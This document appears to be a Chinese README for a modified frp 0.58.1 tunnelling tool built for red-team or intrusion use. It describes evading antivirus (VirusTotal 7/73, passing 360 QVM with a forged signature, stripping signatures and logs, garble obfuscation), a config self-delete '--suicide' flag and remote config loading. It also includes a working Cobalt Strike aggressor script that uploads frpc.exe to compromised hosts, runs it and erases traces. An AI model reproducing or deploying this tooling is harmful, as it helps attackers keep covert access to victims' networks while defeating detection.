 # frp二开

本项目是基于frp 0.58.1的二开项目

VT查杀 7/73 加签名后可过QVM
![image-20240702202600383](https://img-host-arcueid.oss-cn-hangzhou.aliyuncs.com/img202407022026483.png)
![image-20240702203531210](https://img-host-arcueid.oss-cn-hangzhou.aliyuncs.com/img202407022035330.png)

项目进行了如下改动
## 1. 特征修改
包括静态特征 流量特征
删除了大部分的log输出
使用garble编译混淆


## 2. 参数修改
修改默认的`-c`指定配置文件为`-o`
加入配置文件自删除参数`-s`或者`--suicide`
远程加载配置文件：frpc.exe -r http://127.0.0.1/frpc.toml


## 3. 资源文件添加
添加资源文件 用来过360QVM `2024.07.02 19:00` 测试 加上资源文件并伪造签名后可过QVM
如需修改icon 更换根目录`icon.ico` 并执行

```cmd
go install github.com/akavel/rsrc@latest
```

```cmd
rsrc -ico icon.ico -o ./cmd/frpc/icon.syso
rsrc -ico icon.ico -o ./cmd/frps/icon.syso
```

## 4. cs插件

基于[xq17](https://www.anquanke.com/member.html?memberId=130474)师傅的插件进行改写

使用方式:
  
  cs直接加载`cs_frp_plugin`文件夹中的`frp.cna`
  
  upload 上传`frpc.exe frpc.toml`
  run 执行frpc并删除配置文件
  delete 杀进程删文件

```cna
popup beacon_bottom {
    menu "Frp"{
        item "Upload" {
            $bid = $1;
            $dialog = dialog("Upload frpc", %(UploadPath => "C:\\Windows\\Temp\\", bid => $bid), &upload);
            drow_text($dialog, "UploadPath",  "path: ");
            dbutton_action($dialog, "ok");
            dialog_show($dialog);
        }
        sub upload {
            # switch to specify path
            bcd($bid, $3['UploadPath']);
            bsleep($bid, 0 ,0);

            bupload($bid, script_resource("/scripts/frpc.toml"));
            bupload($bid, script_resource("/scripts/frpc.exe"));
            
            show_message("Executing cmmand!");
        }
        item "Run"{
            $bid = $1;
            $dialog = dialog("Run frpc", %(uri => "frpc.toml -s", bid => $bid), &run);
            drow_text($dialog, "uri",  "configURI: ");
            dbutton_action($dialog, "ok");
            dialog_show($dialog);
        }

        sub run{
            local('$Uri');
            $Uri =  $3['uri'];
            bshell($bid, "frpc.exe -o  $+ $Uri ");
            show_message("Executing cmmand!");
            bsleep($bid, 10, 0);
        }

        item "Delete" {
            # local("bid");
            bshell($1, "taskkill /f /t /im frpc.exe &&  del /f /s /q frpc.exe");
        }
    }
}
```


